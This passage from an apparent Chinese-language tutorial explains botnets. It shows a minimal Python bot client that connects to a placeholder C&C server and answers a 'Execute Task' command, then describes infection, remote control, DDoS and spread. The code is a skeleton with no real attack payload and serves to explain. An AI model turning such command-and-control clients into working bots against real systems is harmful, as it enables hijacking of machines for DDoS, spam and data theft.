 Bot 端代码是运行在被感染的计算机上的程序，它连接到 C&C 服务器并执行来自服务器的命令。以下是一个简单的 Bot 端代码示例：

```python
import socket

def connect_to_cnc():
    """连接到 C&C 服务器"""
    server_ip = "CNC_SERVER_IP"  # C&C 服务器的 IP 地址
    server_port = 9999
    
    bot_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    bot_socket.connect((server_ip, server_port))
    
    while True:
        # 接收来自 C&C 服务器的命令
        command = bot_socket.recv(1024).decode()
        if command == "Execute Task":
            print("Executing Task: Start DDoS attack!")
            # 这里可以添加执行任务的代码，比如启动 DDoS 攻击
            bot_socket.send("Task Completed".encode())  # 任务完成后向服务器发送确认
        else:
            print("Unknown command.")
    
    bot_socket.close()

if __name__ == "__main__":
    connect_to_cnc()
```

#### **代码解释**：
- **连接到 C&C 服务器**：`bot_socket.connect()` 方法连接到指定的 C&C 服务器。
- **接收命令**：Bot 一旦连接到 C&C 服务器，就会在循环中不断接收来自服务器的命令。当接收到 "Execute Task" 时，Bot 会执行任务（例如，启动 DDoS 攻击）。
- **发送反馈**：执行完任务后，Bot 会发送反馈消息到 C&C 服务器，表明任务已经完成。

### 3. **Botnet 的工作流程**

#### **1. 初始感染**：
   - 攻击者通过多种方式（例如恶意邮件、漏洞利用、下载恶意文件等）感染计算机，使其成为 Botnet 的一部分。
   - Botnet 中的每个计算机都会运行 Bot 端代码，并通过网络连接到 C&C 服务器。

#### **2. C&C 服务器控制**：
   - 一旦 Bot 成功连接到 C&C 服务器，攻击者就可以远程控制这些 Bot 执行各种恶意任务。
   - C&C 服务器可以通过发送命令来控制 Bot 执行 DDoS 攻击、发送垃圾邮件、窃取数据等操作。

#### **3. Bot 执行命令**：
   - Bot 在收到命令后会执行指定的操作，并将执行结果反馈给 C&C 服务器。
   - 如果 C&C 服务器要求 Bot 执行某些操作（如发起攻击），Bot 会在本地执行，并向 C&C 服务器确认任务完成。

#### **4. 扩展和传播**：
   - Botnet 会继续传播，寻找新的目标计算机进行感染，扩大 Botnet 的规模。
   - 攻击者可以使用这些被感染的 Bot 来发起更大规模的攻击。
